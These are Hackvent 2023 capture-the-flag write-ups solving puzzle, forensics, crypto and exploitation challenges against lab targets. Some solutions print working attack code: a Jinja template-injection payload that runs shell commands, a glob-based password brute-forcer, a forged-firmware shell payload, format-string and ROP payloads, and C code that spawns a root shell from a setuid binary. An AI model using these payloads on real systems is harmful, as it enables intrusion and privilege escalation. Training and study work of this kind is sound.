




# Hackvent 2023 Writeups
# Easy
## [HV23.01] A letter from Santa (coderion)
### Description
>Finally, after 11 months of resting, Santa can finally send out his presents and challenges again. He was writing a letter to his youngest baby elf, who's just learning his ABC/A-Z's. Can you help the elf read the message?
### Overview
Simple Flask webapp
you can chose a letter in the drop-down and chose a string to replace. Some letters have black background some white.
### Solution
If you chose 'a' in the dropdown and specify '  ' as a replacement, you might realize that the rendered text looks like the first line of a qrcode. If you look into the sources you can see that every element with the class a has a black background and every element with b has a light background. Thy python code below reads the template extract all elements and generates a ascii qrcode in your terminal.
```python
import re
with open('./templates/santa.j2', 'r') as f:
    content = f.read()

combinations = re.findall(r"'([ab])'>{{([a-z])}}", content)
combinations.sort(key=lambda x: x[-1])
code = ''.join(['  ' if combination[0] == 'a' else '██' for combination in combinations])
for i in range(0, 1250, 50):
    print(code[i:i+50])
```
Flag: **HV23{qr_c0des_fun}**

## [HV23.02] Who am I? (explo1t)
### Description
>Have you ever wished for an efficient dating profile for geeks? Here's a great example:  
>   
>```G d--? s+: a+++ C+++$ UL++++$ P--->$ L++++$ !E--- W+++$ N* !o K--? w O+ M-- V PS PE Y PGP++++ t+ 5 X R tv-- b DI- D++ G+++ e+++ h r+++ y+++```  
  
>Flag format: ```HV23{<Firstname Lastname>}```
### Overview
This is very likely a geek code profile.
### Solution
In the geek code [wikipedia article](https://de.wikipedia.org/wiki/Geek_Code) is a link to this [geek-code decoder](http://www.joereiss.net/geek/ungeek.html) where you can decode your geek code. Under the PGP attribute there is '*I am Philip Zimmerman*'. Given the Flag format which calls for Firstname Lastname, the flag is **HV23{Philip Zimmerman}**.

## [HV23.03] Santa's grille (brp64)
### Description
>#### Introduction
>While contemplating the grille and turning some burgers, Santa decided to send all the hackers worldwide some season's greetings.  
>

>#### Image illustration
>This image is only for illustration purposes. Solve the challenge using the image above in the introduction section.  
>
>

### Solution
After reverse image searching the example image, references to grille encryption came up which seem to match the challenge quite well.
But to decrypt the text we need a grille we don't have. We're in luck as this cipher as many other simple ciphers is vulnerable to a [know-plain-text](https://en.wikipedia.org/wiki/Known-plaintext_attack) attack. Due to the way the cipher works, we can deduce that the Flag will be 4x a 6 character long string. The first 5 of 6 characters will have to be ```HV23{``` from this we can already definitifly find 3 holes.  
  
  
The other 2 of the 5 character are a bit more difficult because the have more that one obvious possibilities. But upon further inspections we can find that these holes also only have one valide position.  
  
  
The last hole can be found by rotating the grille 3 times and looking where ```}``` lands.  

  
With this grille we can nou use a tool like [Grille Cipher (Cardan Grille)](https://merri.cx/enigmator/cipher/grille.html) to decrypt the flag. Sadly as it turns out the tool rotates the grille the wrong way which results in ```HV23{mt2023}8ckven3rry_h```. Rearanged we get **```HV23{m3rry_h8ckvent2023}```**.
### Adendum
If you're lazy like me you can also just bruteforce the grille with the included *solveDay3.py*

## [HV23.04] Bowser (veganjay)
### Description
> Santa has heard that some kids appreciate a video game as a christmas gift. He would rather have the kids solve some CTF challenges, so he took some inspiration and turned it into a challenge. Can you save the princess?   

### Solution
After opening the provided binary in ghidra we get the following main function:  
```c
int main(int argc, char **argv) {

  char flag[75] = {0xac,  0x90,  0x8d,  0x8d,  0x86,  0xd3,  0xdf,  0x86,  0x90,  0x8a,  0x8d,  0xdf,  0x99,  0x93,  0x9e,  0x98,  0xdf,  0x96,  0x8c,  0xdf,  0x96,  0x91,  0xdf,  0x9e,  0x91,  0x90,  0x8b,  0x97,  0x9a,  0x8d,  0xdf,  0x9c,  0x9e,  0x8c,  0x8b,  0x93,  0x9a,  0xd1,  0xff,  0xb7,  0xa9,  0xcd,  0xcf,  0xcd,  0xcc,  0x84,  0xa6,  0x90,  0x8a,  0xa0,  0xb7,  0x9e,  0x89,  0x9a,  0xa0,  0xac,  0x9e,  0x89,  0x9a,  0x9b,  0xa0,  0x8b,  0x97,  0x9a,  0xa0,  0xaf,  0x8d,  0x96,  0x91,  0x9c,  0x9a,  0x8c,  0x8c,  0x82,  0x0};

  if (argc == 2) {
    if (strcmp(argv[1],"mario") == 0) {
      for (char* c = flag; *c != NULL; c++)
        *c = ~*c;
      puts(flag);
      return 0;
    }
    else {
      puts("Sorry, that is not the correct password.");
      return 1;
    }
  }
  else {
    printf("Usage: %s password\n",*argv);
    return 1;
  }
}
```
Firstly the flag array is initialized with 75 hex values. Then the password is checked, in this case the password is "mario". After this the flag is decoded and printed. Seems simple enough. But if you run the binary with the correct password, you just get "Sorry, your flag is in another castle.". But if you look closly, the output is way less that 75 characters. Thats because after "." there is a null byte and puts stops at null bytes. If you instead open the binary in gdb and use ```print flag``` while being at a breakpoint just before puts you get the flag.
```python
from pwn import *

p = gdb.debug(['bowser.elf', 'mario'], exe='bowser.elf', api=True, gdbscript='''
break *main+319
continue &''')
p.gdb.execute('print flag')
```
Flag: **HV23{You_Have_Saved_the_Princess}**

## [HV23.05] Aurora (monkey9508)
### Description
>The Northern Lights appeared at exceptionally low latitudes this year due to the high level of solar activity. But from Santa's grotto at the North Pole, it's not unusual at all to see them stretching across the sky. Snowball the elf tried to capture a video of the aurora for his Instagram feed, but his phone doesn't work well in poor light, and the results were rather grainy and disappointing. Is there anything you can do to obtain a clearer image?
### Solution
When looking closely at the given noise, there are some lighter spots which might be the flag. To remove the noise we can average all frames of the video.
```python
import cv2, numpy as np
vidcap = cv2.VideoCapture('aurora.mp4')
success,image = vidcap.read()
count = 0
success = True
image = np.float64(image)
while success:
  success,img = vidcap.read()
  if img is None:
    break
  image += np.float64(img)
  count += 1
image /= float(count)
cv2.imwrite('flag.png', np.uint8(image))
```


## [HV23.06] Santa should use a password manager (wangibangi)
### Decription
> Santa is getting old and has troubles remembering his password. He said password Managers are too complicated for him and he found a better way. So he screenshotted his password   and decided to store it somewhere handy, where he can always find it and where its easy to access.
>   
> Santa recommends the volatility profile Win10x64_18362  
### Solution
As in the description mentioned, is the given file a volatility dump. Additionally there is a hint that the flag is in a screenshot. Based on this information we try to list all images.
```shell 
./vol.py -f /mnt/ain/memory.raw windows.filescan.FileScan
```
List of interesting files:
```
0x918b760e8750  \Users\santa\Pictures\wallpaper.png	216
0x918b760e88e0	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppBackground\wallpaper.png	216
0x918b760ed250	\Users\santa\Pictures\wallpaper.png	216
0x918b760ed3e0	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppBackground\wallpaper.png	216
0x918b76c517f0	\Users\santa\Pictures\wallpaper.png	216
0x918b76c54860	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppLockscreen\wallpaper.png	216
0x918b76c56160	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppLockscreen\wallpaper.png	216
0x918b771069c0	\Users\santa\Pictures\wallpaper.png	216
```
This wallpaper.png in the Pictures Folder looks quite interesting, and we can dump it by providing the address from above.
```shell 
./vol.py -f /mnt/ain/memory.raw windows.dumpfiles.DumpFiles --virtaddr 0x918b760e8750
```
We then get the following image with a qrcode which contains the flag:

Flag: **HV23{FANCY-W4LLP4p3r}**

## [HV23.07] The golden book of Santa (darkstar)
### Decription
> An employee found out that someone is selling secret information from Santa's golden book. For security reasons, the service for accessing the book was immediately stopped and there is now only a note about the maintenance work. However, it still seems possible that someone is leaking secret data.

> Hint #1: It is recommended to initiate a direct connection to the server without any proxy in between

> Hint #2: You should stop spamming connections because you already have everything you need
### Solution
When looking at the chunk headers of the received image, you can notice that the chunk sizes look strange. Infact if you ignore the first digit of the chunksizes and decode them to ascii, you will receive the flag.  

```python
from pwn import *

# r = remote('xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.rdocker.vuln.land', 80)
# r.sendline(b'')
# content = r.recvall()
# with open('response', 'wb') as f:
#     f.write(content)

with open('response', 'rb') as f:
    content = f.read()

print('H', end='')
for chunk in content.split(b'\r\n')[2:]:
    if len(chunk) < 10 and len(chunk) > 1:
        print(chr(int(chunk[1:], 16)), end='')
print('')
```
Flag: **HV23{here_is_your_gift_in_small_pieces}**

## [HV23.H1] Kringle's Secret
### Decription
> Can you feel it? I feel like there's a... hidden flag in one of the easy challenges!
### Solution
It turns out this flag is hidden in the 6th easy challenge. To be more exact, the flag is hidden in the wallpaper.png file. To find it you can use zsteg or you can just use [aperisolve](https://www.aperisolve.com/) and upload your image.   
Flag: **HV23{no_ctf_without_stego}**

# Medium
## [HV23.08] SantaLabs bask (coderion)
### Decription
> Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and even template your files by using dynamic scripting!  

> Hint #1: Santa noticed the snow had a very peculiar shape today.  
### Solution
When using [shellcheck](https://www.shellcheck.net/) and scanning the **post_login.sh** the tool reports a globbing vulnerability.
```
Line 14:
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
                         ^-- SC2053 (warning): Quote the right-hand side of == in [[ ]] to prevent glob matching.
```
This means that the password can be bruteforced character by character. You can use 'password*' and the * in the end just matches the rest.  

solve.py:   
```python
import requests
from string import printable
from time import sleep
import re

url = 'http://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.idocker.vuln.land'

password = 'salami'
while True:
    for p in printable[:71]:
        print(f'trying {password+p}*')
        resp = requests.post(url+'/login', data=f'password={password+p}*').text
        while not ('redirecting' in resp or 'Invalid username or password!' in resp):
            print(f'continuing trying {password+p}*')
            resp = requests.post(url+'/login', data=f'password={password+p}*').text
            sleep(0.25)
        if 'redirecting' in resp:
            password += p
            break
    else:
        break

print('\nFlag: '+re.findall(r'(HV23\{\w.*?\})', requests.get(url+'/admin', cookies={'admin_token':password}).text)[0])
```
Flag: **HV23{gl0bb1ng_1n_b45h_1s_fun}**  
## [HV23.09] Passage encryption (dr_nick)
### Decription
> Santa looked at the network logs of his machine and noticed that one of the elves browsed a weird website. He managed to get the pcap of it, and it seems as though there is some sensitive information in there?!
### Solution
When viewing the pcap file in wireshark the port number of the sender looked really weird. And infact when extracting these ports and substracting 56700 you can notice that those numbers look like ascii. When decoding the numbers, the flag is revealed.   
```python
from scapy.all import *
 
for cpacket in PcapReader('secret_capture.pcapng'):
    if cpacket[IP].src == '192.168.1.12' and cpacket[TCP].sport > 56700:
        print(chr(cpacket[TCP].sport - 56700), end='')
print('')
```
Flag: **HV23{Lo0k1ng_for_port5_no7_do0r$}**

## [HV23.10] diy‑jinja (coderion)
### Description
> We've heard you like to create your own forms. With SANTA (Secure and New Template Automation), you can upload your own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100% secure and even with anti-tampering protection!
### Solution
When looking at the sourcecode, you quickly see that this is a flask webapp with jinja2 templates. When further analysing the code one can notice that there is some injecting protection with a regex. The regex **{{(.*?)}}** matches all templates which then get further checked by this regex **^[a-z ]+$**, which only allows lowercase a-z and space. But you can notice that the field actually dont get checked but also rendered with render_template. With this you can perform a STI(Serverside Template Injection). One limitation is that you can't use any strings but this can easily be solved by just converting them to integers.   
File: 
```jinja
{{ a }}
```
Field a:
```python
{{ self.__init__.__globals__.__builtins__.__import__(self.__init__.__globals__.__builtins__.bytes([111, 115]).decode()).popen(self.__init__.__globals__.__builtins__.bytes([99, 97, 116, 32, 47, 97, 112, 112, 47, 102, 108, 97, 103, 46, 116, 120, 116]).decode()).read() }}
```
Cleaned up:
```py
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /app/flag.txt').read() }}
```
Or you can just execute the [solve.py](./10-diy-jinja/solve.py)

Flag: **HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}**  
## [HV23.11] Santa's Pie (coderion)
### Description
> Santa baked you a pie with hidden ingredients!   

### Solution
When looking at the red channel the the values looked surprisingly small. When you had a closer look, you could notice that the first row of pixels where the digits of pi. When looking at the blue channel, the values looked a lot like ascii but they where a litte bit off. If you xored the values of the blue channel with the red channel and decoded the values to ascii you find a lot of ```Never gonna give you up``` and ```Never gonna let you down```. Amidst these Rick Rolls, you could find the flag.  
   
solve.py:   
```py
import cv2
from re import findall

img = cv2.imread('chall.png').tolist()

out = ''
for line in range(len(img[0])):
    out += ''.join([chr(max(min(x[line][0] ^ x[line][2], 126), 32)) for x in img])

print('Flag:', findall(r'(HV23\{\w.*?\})', out)[0])
```
Flag: **HV23{pi_1s_n0t_r4nd0m}**

## [HV23.H2] Grinch's Secret
### Decription
> Santa usually only gifts one present per kid, but one of his elves accidentally put two presents in the bag for a single kid! Somewhere in the medium challenges, you can find the second gift.
### Solution
This Flag was actually inside day 11. When looking at the rest of the text, you could notice that the pattern of ```Never gonna give you up``` and ```Never gonna let you down``` are strange. Actually they look like binary. And infact if we replace the ```Never gonna give you up``` with 0 and ```Never gonna let you down``` with 1, and decode them to ascii, we find the second flag.   
   
solve.py:   
```py
import cv2
from re import findall

img = cv2.imread('chall.png').tolist()

out = ''
for line in range(len(img[0])):
    out += ''.join([chr(max(min(x[line][0] ^ x[line][2], 126), 32)) for x in img])

out = ''.join(findall(r'[01]', out.replace('Never gonna give you up.', '0').replace('Never gonna let you down.', '1')))
print('Hidden 2:', findall(r'(HV23\{\w.*?\})',''.join([chr(int(out[i:i+8], 2)) for i in range(0, len(out), 8)]))[0])
```

Flag: **HV23{h1dden_r1ckr011}**

[HV23.12] unsanta (kuyaya)
### Description
> To train his skills in cybersecurity, Grinch has played this year's SHC qualifiers. He was inspired by the cryptography challenge unm0unt41n (can be found here) and thought he might play a funny prank on Santa. Grinch is a script kiddie and stole the malware idea and almost the whole code. Instead of using the original encryption malware from the challenge though, he improved it a bit so that no one can recover his secret!
> 
> Luckily, Santa had a backup of one of the images. Maybe this can help you find the secret and recover all of Santa's lost data...?
### Solution
The mentioned malware just xores the files with a random numbers. But this numbers are not really random, infact if you know 624 consecutive numbers, you can predict every next number. Additionally with the help of Z3 it is possible to recover the seed which is what we need here. To make this possible we can use [RNGeesus](https://github.com/deut-erium/RNGeesus) from deut-erium. You can extract the random numbers from the encrypted and the backup and then give these to the solver. When decoding the long array you get the Flag.   

```py
from mersenne import BreakerPy
from Crypto.Util.number import long_to_bytes

with open('./backup/a.jpg', 'rb') as f:
    msg = f.read()

with open('./memes/a.jpg', 'rb') as f:
    enc = f.read()

key = b"".join([bytes([msg[i] ^ enc[i]]) for i in range(624*4)])
randomNumbers = [int.from_bytes(key[i:i+4], 'big') for i in range(0, 624*4, 4)]

b = BreakerPy()
recovered_seeds = b.get_seeds_python_fast(randomNumbers)
print(long_to_bytes(b.array_to_int(recovered_seeds)))
```
  
Flag: **HV23{s33d_r3c0very_1s_34sy}**

[HV23.13] Santa's Router (fabi_07)
### Description
> Santa came across a weird service that provides something with signatures of a firmware. He isn't really comfortable with all that crypto stuff, can you help him with this?
### Solution
The code actually has two vunerabilities. Firstly the hashing function just xores the result. Second, the python zip library actually doesn't care about trailing/prepended bytes. With these two combined, you could make a new firmware.zip and fix the hash by appending the correct 8-bytes. Now you got multiple options. Firstly, you can exfiltrate the flag to a local http server or you can use the return value to leak the flag one character at a time. While writing the challenge, i intended the participants to leak the flag this way, but a couple of smart people just overwrote the chall.py with ```print(flag)```.

[solve.py:](./13-santas-router-source/solve.py)
```py
import base64
from io import BytesIO
import zipfile
from pwn import *

def hashFile(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash

r = remote('localhost', 1337)

r.sendlineafter(b'$', b'version')
r.recvuntil(b'Signature: ')
signature = r.recvline()[:-1]

flag = ' '

while flag[-1] != '\0':
    payload = f'''exit $(printf '%d' "'$(cat flag | cut -c {len(flag)})")'''   # payload sent to the server
    with BytesIO() as buffer:
        with zipfile.ZipFile(buffer, 'a', zipfile.ZIP_DEFLATED) as zip_file:
            zip_file.writestr('start.sh', payload)
        # Rewind the buffer to the beginning before reading its content
        buffer.seek(0)
        newZipContent = buffer.read()

    with open('firmware.zip', 'rb') as f:
        hashOld = hashFile(f.read())
        hashNew = hashFile(newZipContent)
        difference = hashOld ^ hashNew          # Calculate the difference in the hash
        diffBytes = bytes([(difference & (255 << 8*j)) >> 8*j for j in range(8)])       # Calculate the bytes to fix the hash
        newZipContent = diffBytes+newZipContent     # Zip's actually don't care about data in the beginning
        zipEncodedData = base64.b64encode(newZipContent)

    r.sendlineafter(b'$', b'update')
    r.sendlineafter(b'>', zipEncodedData)
    r.sendlineafter(b'>', signature)

    flag += chr(int(r.recvline().strip().split()[-1].decode()))

print(f'Flag: {flag}')
```

Flag: **HV23{wait_x0r_is_not_a_secure_hash_function}**

## [HV23.14] Crypto Dump (LogicalOverflow)
### Description
> To keep today’s flag save, Santa encrypted it, but now the elf cannot figure out how to decrypt it.  
> The tool just crashes all the time. Can you still recover the flag?
### Solution
After reversing the binary, you can notice that the encoded flag is located in memory pointed at by r13 and the key is memory pointed at by r13. Then you can just extract the key and encrypted flag and feed it to the programm to get the decrypted flag. Nicely enought pwntools has a convenient Corefile class which can parse and read such a file.
```py
from pwn import *

core = Corefile('./dump')               # Read corefile

flagAddress = core.registers['r13']     # Get key and data address
keyAddress = core.registers['r15']

flagData = core.read(flagAddress, 43)   # Read key and data from memory
keyData = core.read(keyAddress, 32)

with open('flag.enc', 'wb') as f:       # create necessary files
    f.write(flagData)

with open('key', 'wb') as f:
    f.write(keyData)

p = process('./flagsave ./flag.enc d', shell=True)      # Decrypt flag
p.wait()

with open('out', 'rb') as f:
    print('\nFlag:', f.read().decode())
```

Flag: **HV23{17's_4ll_ri6h7_7h3r3}**

## [HV23.15] pREVesc (coderion)
### Description
> We recently changed the root password for santa as he always broke our system. However, I think he has hidden some backdoor in there. Please help us find it to save christmas!
### Solution
When logging in with the provided credentials, you can find a "normal" ubuntu 23.04. Running [linPEAS]() sadly doesnt reveal to much. But when looking at the modified date of the setuid binaries, you can find that the passwd file seemed to be more recent than the others. You can then copy the binary with scp to your local machine. When you decompile the binary, you can find that when using the -E Argument the following code get called:
```c
case 'E':
	setuid(0);
	setgid(0);
	// secret password must be set
	// get SALAMI env
	char *salami = getenv("SALAMI");
	// if env is empty
	if (salami == NULL) {
		// set env
		puts("Why u givin' me no salami?!");
		exit(1);
	}
  int i;
	char key[] = "nevergonnagiveyouup";
  char xor_password[] = "";
  char output[6];

  for (i=0; i<6; i++) {
  	char temp = xor_password[i] ^ key[i];
  	output[i] = temp;
  }
	char password[] ={0x1b, 0x15, 0x18, 0x11, 0x1e, 0x53, 0x5c, 0x4e, 0x1b, 0x16, 0x1a, 0x47, 0x0a, 0x0e, 0x19, 0x15, 0x18, 0x0b, 0x16, 0x4f, 0x0f, 0x0e, 0x00, 0x46, 0x04, 0x00, 0x18, 0x02, 0x05, 0x56, 0x05, 0x5c, 0x08, 0x30, 0x1a, 0x5d, 0x04, 0x58, 0x3b, 0x06, 0x35, 0x0a, 0x22};

	char pw[43];    // pw=https://www.youtube.com/watch?v=dQw4w9WgXcQ
	for (int i = 0; i < sizeof(password); i++) {
		char tmp = password[i] ^ output[i % 6];
		pw[i] = tmp;
	}
	// check da env
	if (strcmp(salami, pw) != 0) {
		printf("Never gonna give you up!\nYou'll never escape the rickroll.");
		exit(1);
	}
	puts("Enjoy your salami!");

  system("/bin/bash -p");
```
When looking at the registers in gdb we can see that the password is: https://www.youtube.com/watch?v=dQw4w9WgXcQ.   
When you then execute 
```bash 
SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
```
 you get the flag.  
A solve.py can be found [here](./15-pREVesc/solve.py).  
  
Flag: **HV23{3v1l_p455wd}**   


## [HV23.16] Santa's Gift Factory (fabi_07)
### Description
> Did you know that Santa has its own factory for making gifts? Maybe you can exploit it to get your own special gift!
### Solution
When running the binary, you firstly have to complete a simple counting excersise. After this the tellflag function get called which only gives you a little part of the flag, because the rest seems to have been lost. 
```c
void tellflag() {
  char buffer[128];
  FILE *fp = fopen("flag", "r");
  if(fp == NULL) {
    error("Opening flag file failed!!! Please contact the admins.");
  }

  char flag[6];
  int len = fread(flag, 1, 5, fp);
  flag[len] = '\0';

  if(fclose(fp) < 0) {
    error("Closing flag file failed!!! Please contact the admins.");
  }

  system("./magic.sh");

  char* name = getstr("Santa: One last thing, can you tell me your name?");
  printf("\nSanta: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely. All I can give you is this: %s. I am very sorry about this and would like to apologise for the inconvenience.\n", flag);
  gets("\nSanta: Can I assist you with anything else?", buffer);
  printf("\nSanta: You want me to help you with ");
  printf(buffer);
  puts("?\nSanta: I will see what I can do...");
}
```
But when searching in the process memory, you can find the flag in a chunk on the heap. Additionally there is a bufferoverflow with gets and a formatstring vulnerability. But as the formatstring leak is after the bufferoverflow it is not possible to directly use the leak. To fix this you can extend the formatstring payload to overwrite the lowest byte of the return address which causes the tellflag function to be executed a second time.
```py
payload1 = flat({0:b'%p '*50, 167:chr(0x9b).encode()})          # formatstring vuln and override lowest byte of return address to run tellflag twice
```
As i wasn't able to find a heap address in the leak, i just called the getstr function which returns a heap pointer. With the help of a add gadget and printf you can read the flag from the heap.
```py
    # rop-chain: 'pop rsi' 'buffer_address' 'pop rdi' 'buffer_address' 'getstr' 'pop rdx' 'heap offset' 'add rax, rdx' 'error+43'
    payload = flat({168:[0x2573e+libc, 0x1F690+stack, 0x240e5+libc, 0x1F690+stack, 0x139D+-0xf+function, 0x26302+libc, pack(-0x26E-0x180, 64), 0x76a7a+libc, 0x130E+function, 0x1354+function]})
```
A complete solve.py can be found [here](./16-sgf/Playtest/solve.py).

## [HV23.17] Lost Key (darkstar)
### Description
> After losing another important key, the administrator sent me a picture of a key as a replacement. But what should I do with it?    
> 
### Solution
When looking at the image, you can notice that there are two clearly out of place pixels. When looking with zsteg you can find in the meta Comment: ```Key Info: 0x10001```. This is clearly a hint to use RSA because 0x10001 is the defacto standart private key. When spliting the image in half, with the strange pixels at the end, and then decoding them to bytes, you will find p and q. And with these you can calculate the private key and n, to decrypt the flag.   

  

```py
from PIL import Image
from Crypto.Util.number import bytes_to_long, long_to_bytes
import sys
sys.set_int_max_str_digits(0)

img = Image.open("key.png")

data = img.tobytes()
p = bytes_to_long(data[:len(data)//2])
q = bytes_to_long(data[len(data)//2:])
print(f"{p=} {q=}")

e = 0x10001
n = p * q
phi = (p-1)*(q-1)
d = pow(e, -1, phi)
print(f'{d=}')

with open("flag.enc", "rb") as f:
    enc=bytes_to_long(f.read())

flag = pow(enc, d, n)

with open('flag.png', 'wb') as f:
    f.write(long_to_bytes(flag))
```

Flag: **HV23{Thanks_for_finding_my_key}**

## [HV23.18] Evil USB (coderion)
### Description
> An engineer at SantaSecCorp has found a suspicious device stuck in the USB port of his computer. It doesn't seem to work anymore, but we managed to dump the firmware for you. Please help us find out what the device did to their computer.
### Solution
When looking at the disassembly of the firmware, you can find that the firmware xores some memory with 0x69 and then writes the string with the simulated keyboard. Sadly the challenge author thought about just putting the firmware on a board and he added a 16h delay to the code. But we can actually just xor the whole firmware with 0x69.
```py
with open("./firmware.elf", "rb") as f:
    data = f.read()

with open("./base64.elf", "wb") as f:
    for byte in data:
        f.write(bytes([byte ^ 0x69]))
```
But we do not just jet get the flag. Instead we get we find a base64 encoded string. Decoding that string, we get a github gist which contains contains bash code to download a image.     But where is the flag? It turns out the flag can be found with exiftool, as it is just in the comment field of the image.   
Flag: **HV23{4dru1n0_1s_fun}**  

## [HV23.19] Santa's Minecraft Server (nichtseb)
### Description
> Santa likes to play minecraft. His favorite version is 1.16. For security reasons, the server is not publicly accessible. But Santa is a little show-off, so he has an online map to brag about his fabulous building skills.
### Solution
We get a hint that the server runs on minecraft version 1.16. With a quick google search, you can find that 1.16 is a version of minecraft which is vulnerable to the log4shell vulnerabiliy. To abuse it, you can use [log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc). On the system, you can find that you need to escalate your priviledges to get the flag. When looking for setuid binary, you will find a binary in a directory called santas-workshop. When looking at the source code, you can notice that the code just opens /bin/bash. But this does not give a root shell as bash by default drops the priviledges on startup. But you can just replace bash with your own binary which gets a root shell.
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
void main() {
  setuid(0);
  seteuid(0);
  setreuid(0, 0);
  char *command = "/bin/sh";
  char *args[] = {command, "-p", NULL};
  execve(command, args, NULL);
}
```
For the lazy like me, you can find a complete solve script in the day 22 directory, which performs the log4shell exploit and the privEsc automatically.
Flag: **HV23{d0n7_f0rg37_70_upd473_k1d5}**

## [HV23.20] Santa's Candy Cane Machine (keep3r)
### Description
> As Santa wanted to start producing Candy Canes for this years christmas season, his machine wouldn't work anymore. All he got was some error message about an "expired license". Santa tried to get support from the manufacturer. Unfortunately, the company is out of business since many years.  
>  
> One of the elves already tried his luck but all he got out of the machine was a .dll!  
>  
> Can you help Santa license his Candy Cane machine and make all those kids happy for this years christmas?    
### Solution
When opening the dll in Ilspy, we can find, like the name suggests a Licence Checker. The main part of the time for this challenge was actually spent creating a python version of the licence check. This check is made of 3 distinct parts. The first part of the check converts the licence key which is given as a string to a array. Cleaned up and translated to python the function looks like this:
```py
def strToArr(strIn:str) -> list:
    if not (len(strIn) == 29 and strIn[ 5] == '-' and strIn[11] == '-' and strIn[17] == '-' and strIn[23] == '-'):
        return None
    arr = []
    for c in strIn:
        if c == '-':
            continue
        if not c in '23456789ABCDEFGHJKLMNPQRSTUVWXYZ':
            return None
        arr.append(candyMap[ord(c) & 255])
    return arr
``` 
This function already confines our searchspace a lot as the list of possible characters is not that big.

The next part "unshuffels" the array with two lookup tables.
```py
def ComputeShuffle(arr) -> int:
    num = 0
    for i in range(24):
        num += arr[i] + shuffler[i]
    num = num % 32
    return num

def UnshuffleArray(arr):
    b = ComputeShuffle(arr)
    b2 = arr[24]
    if b >= 32 or b2 >= 32:
        return None
    array = [0 for _ in range(24)]
    for i in range(24):
        array[i] = candyMixHorizontals[b2][arr[i]]
    for j in range(24):
        arr[candyMixVerticals[b][j]] = array[j]
    return arr
```
The unshuffeling is based on some constansts with are given by the ComputeShuffle and the 24th element in the input.

The last part is just converting the array into a binary form which the creator graciously alread reversed. 
```py
def arrToBin(arr):
    bin = [0 for _ in range(16)]
    num2 = arr[0] << 35 | arr[1] << 30 | arr[2] << 25 | arr[3] << 20 | arr[4] << 15 | arr[5] << 10 | arr[6] << 5 | arr[7]
    bin[0] = num2 >> 32 & 255
    bin[1] = num2 >> 24 & 255
    bin[2] = num2 >> 16 & 255
    bin[3] = num2 >> 8 & 255
    bin[4] = num2 & 255
    num2 = arr[8] << 35 | arr[9] << 30 | arr[10] << 25 | arr[11] << 20 | arr[12] << 15 | arr[13] << 10 | arr[14] << 5 | arr[15]
    bin[5] = num2 >> 32 & 255
    bin[6] = num2 >> 24 & 255
    bin[7] = num2 >> 16 & 255
    bin[8] = num2 >> 8 & 255
    bin[9] = num2 & 255
    num2 = arr[16] << 35 | arr[17] << 30 | arr[18] << 25 | arr[19] << 20 | arr[20] << 15 | arr[21] << 10 | arr[22] << 5 | arr[23]
    bin[10] = num2 >> 32 & 255
    bin[11] = num2 >> 24 & 255
    bin[12] = num2 >> 16 & 255
    bin[13] = num2 >> 8 & 255
    bin[14] = num2 & 255
    bin[15] = arr[24] << 3
    return bin
```
This binary is then converted into a struct where the various informations about the licence key is saved.

For a licence key to be valide it has to satisfy the following conditions:
```py
Expiration > 1621805003 and Generation > 1621805003 and Product == 1 and Type == 1
```
As these conditions are quite permissive, i just bruteforced the possible combinations until one worked.

This license key can then be submitted on the website to get the flag.

A complete solve.py can be found [here](./20-CandyCaneLicensing/solve.py).

Flag: **HV23{santas-k3ygen-m4ster}**

## [HV23.H3] Santas's Secret
### Description

### Solution
When looking at the sourcecode of the webpage of day 20, you can find that there is actually a faster speed which is possible.
```js
    function startAnimation(speed) {
        $("#conveyor-belt")[0].setCurrentTime(0);
        $("#signal .signal-color").attr("fill", "#198754");

        let candySpeed = 10;
        let wheelSpeed = 5;
        if (speed === 1) {
            candySpeed = 5;
            wheelSpeed = 3;
        } else if (speed === 2) {
            candySpeed = 2;
            wheelSpeed = 1;
        }
        for (let i = 0; i <= 10; i++) {
            $("#candy" + i + " animatemotion").attr("begin", candySpeed/10*i);
            $("#candy" + i + " animatemotion").attr("dur", candySpeed);
        }
        $("#wheel-left animateTransform").attr("begin", 0);
        $("#wheel-left animateTransform").attr("dur", wheelSpeed);
        $("#wheel-right animateTransform").attr("begin", 0);
        $("#wheel-right animateTransform").attr("dur", wheelSpeed);
        console.log("done");
    }
```
This speed is given by the product type from the given licence key.
```js
    function license(data) {
        $("#licenseKey").val(data.licenseKey);
        $("#flag").text(data.flag);
        if (!data.isValid) {
            $("#statusBar").text("License is invalid");
            stopAnimation();
            return;
        }

        if (data.isExpired) {
            $("#statusBar").text("License is expired at " + data.expirationDate);
            stopAnimation();
            return;
        }

        if (!data.isExpired) {
            $("#statusBar").text("License is valid until " + data.expirationDate);
            startAnimation(data.productType);
            return;
        }
    }
```
When having a closer look at the contents of the licence key struct, there is a Product type PREMIUM which coinicentally also has the value 2. And indeed if we find a key with this premium, you get the hidden flag.

